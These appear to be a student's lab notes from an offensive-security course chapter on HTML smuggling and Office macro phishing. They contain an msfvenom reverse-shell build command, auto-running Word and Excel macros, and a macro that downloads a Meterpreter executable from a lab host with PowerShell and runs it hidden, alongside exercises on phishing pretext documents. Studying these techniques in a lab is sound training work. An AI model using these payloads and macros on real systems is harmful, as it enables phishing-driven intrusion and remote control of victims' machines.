 # HTML smuggling

remember to use staged payload instead of non staged ones in meterpreter.

finally used 

```
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.6.12 LPORT=4444 -f exe -o /var/www/html/msfstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/msfstaged.exe
                                                                                                                                                                                                                                 
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ base64 /var/www/html/msfstaged.exe

```
check the code : using new_html.html

### 3.1.3.1 Exercises
1. Repeat the HTML smuggling to trigger a download of a Meterpreter payload in a file format 
of your choosing.

2. Modify the smuggling code to also use the window.navigator.msSaveBlob62,63 method to 
make the technique work with Microsoft Edge as well.

The explot works in msedge also without any change.

# phishing with microsoft office

installing microsoft office 2016 from : `https://office-2016.fileplanet.com/download` - not verified.

### 3.2.1.1 Exercise
1. Install Microsoft Office on your Windows 10 client VM
done

## introduction to vba

creating a macro - view > macros

Leveraging existing methods like Document_Open() and AutoOpen()


```
Sub ss()
'
' ss Macro
'
'

Dim myLong As Long

myLong = 1

If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

End Sub

```

macro for calling cmd.exe

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub

```

Remember to save docx macro compatible.

## 3.2.2.1 Exercises
1. Experiment with VBA programming basics by creating a small macro that prints the current 
username and computer name 5 times using the Environ$ function.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim iCnt As Integer
    Dim sEnvVariable As String
    
    MsgBox Environ("USERNAME") + Environ("USERNAME")
     
End Sub

```

2. Create an Excel macro that runs when opening an Excel spreadsheet and executes cmd.exe 
using Workbook_Open

```
Sub Workbook_Open()
    myMacro

End Sub


Sub myMacro()
    MsgBox ("yello")
End Sub

```
# Let Powershell help us

Powershell is rendered on th efly using .NET framework

using powershell to do a download and execute script

`PS C:\Users\aonno> (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', `

using a word macro to execute powershell script

```
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object 
System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 
'msfstaged.exe')"
 Shell str, vbHide
 Dim exePath As String
 exePath = ActiveDocument.Path + "\msfstaged.exe"
 Wait (2)
 Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
 Dim t As Date
 t = Now
 Do
 DoEvents
 Loop Until Now >= DateAdd("s", n, t)
End Sub
Listing 3
```

### .2.3.1 Exercises
1. Replicate the Word macro to obtain a reverse shell. Implement it in Excel.

2. Experiment with another PowerShell download cradle like Invoke-WebRequest.

```
PS C:\Users\aonno> Invoke-WebRequest "https://raw.githubusercontent.com/fanbyprinciple/pen300/master/README.md"


StatusCode        : 200
StatusDescription : OK
Content           : # pen300
                    
                    Repository for doing pen300 exercises.
                    Need to start with book.
                    
                    Will add multiple folders for various blogs/ resources.
                    
RawContent        : HTTP/1.1 200 OK
                    Connection: keep-alive
                    Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
                    Strict-Transport-Security: max-age=31536000
                    X-Content-Type-Options: nosniff
                    ...
Forms             : {}
Headers           : {[Connection, keep-alive], [Content-Security-Policy, default-src 'none'; style-src 'unsafe-inline'; sandbox], 
                    [Strict-Transport-Security, max-age=31536000], [X-Content-Type-Options, nosniff]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : mshtml.HTMLDocumentClass
RawContentLength  : 131
```

# Keeping up appearances

how to base64encode content using macro

```
3.3.2.1 Exercises
1. Create a convincing phishing pretext Word document for your organization or school that 
replaces text after enabling macros.
2. Insert a procedure called MyMacro that downloads and executes a Meterpreter payload after 
the text has been switched
```











